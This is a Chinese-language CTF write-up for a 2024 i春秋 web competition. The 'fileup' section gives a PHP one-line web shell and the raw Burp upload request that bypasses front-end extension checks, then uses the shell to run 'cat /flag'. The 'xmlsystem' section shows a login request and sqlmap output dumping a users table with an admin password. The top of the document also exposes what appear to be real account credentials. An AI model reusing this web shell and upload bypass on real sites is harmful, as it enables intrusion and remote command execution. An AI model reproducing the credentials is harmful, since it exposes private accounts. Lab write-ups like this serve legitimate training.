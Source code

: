 账号密码：
![[83b1b03d231b64f691ed7ba0098018f0.png]]
19380156166
SqfhWWMB
网址：
https://match.ichunqiu.com/2024qwqsnsj

https://match.ichunqiu.com/login?k=ATRSYlppUzMHcAQnUSZcfgU9BnEAOwsyA2UEPV5pCjlSYAI0Wm9RMAYzBmE

## Web
### fileup
在 `2.txt` 文件中写入 php 一句话木马。
```2.txt
<?php system($_GET['cmd']);?>
```

选择 `2.txt` 上传，使用 burp 抓包，将 `2.txt`  改成 `2.php` 绕过前端验证。

payload:
```http
POST /upload.php HTTP/1.1
Host: eci-2zefomy0ikzauba54fm0.cloudeci1.ichunqiu.com
Content-Length: 210
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytmLUMzo4BSnxuEhQ
Accept: */*
Origin: http://eci-2zefomy0ikzauba54fm0.cloudeci1.ichunqiu.com
Referer: http://eci-2zefomy0ikzauba54fm0.cloudeci1.ichunqiu.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1732960958,1733317540,1733380272,1733561121
Connection: keep-alive

------WebKitFormBoundarytmLUMzo4BSnxuEhQ
Content-Disposition: form-data; name="file"; filename="2.php"
Content-Type: text/plain

  <?php system($_GET['cmd']);?>
------WebKitFormBoundarytmLUMzo4BSnxuEhQ--
```

响应文：
```
{"success":true,"message":"\u6587\u4ef6\u4e0a\u4f20\u6210\u529f","filePath":"uploads/6754e1a2b3f68_2.php"}
```

然后 rce 即可获得 flag
```
http://.../uploads/6754e1a2b3f68_2.php?cmd=cat /flag
```

```
flag{61ecb4e6-aa15-4813-ac4d-b33cd720251d}
```


index.html upload.php uploads

index.html
```

```

### xmlsystem

home.php index.php db.php upload.php

sql 注入
```http
POST /index.php HTTP/1.1
Host: eci-2zecc5jyh9rv6zaa2hx5.cloudeci1.ichunqiu.com
Content-Length: 29
Cache-Control: max-age=0
Origin: http://eci-2zecc5jyh9rv6zaa2hx5.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2zecc5jyh9rv6zaa2hx5.cloudeci1.ichunqiu.com/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1732960958,1733317540,1733380272,1733561121; PHPSESSID=eb2facd8b6d7275577f44b8fffe64780
Connection: keep-alive

username=admin&password=admin
```

sqlmap

```
[*] ctf
[*] information_schema
[*] mysql
[*] performance_schema
```

```
+-------+
| users |
+-------+
```

```
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```

```
+----+-------------------+----------+
| id | password          | username |
+----+-------------------+----------+
| 1  | adminPasswd@123!! | admin    |
+----+-------------------+----------+
```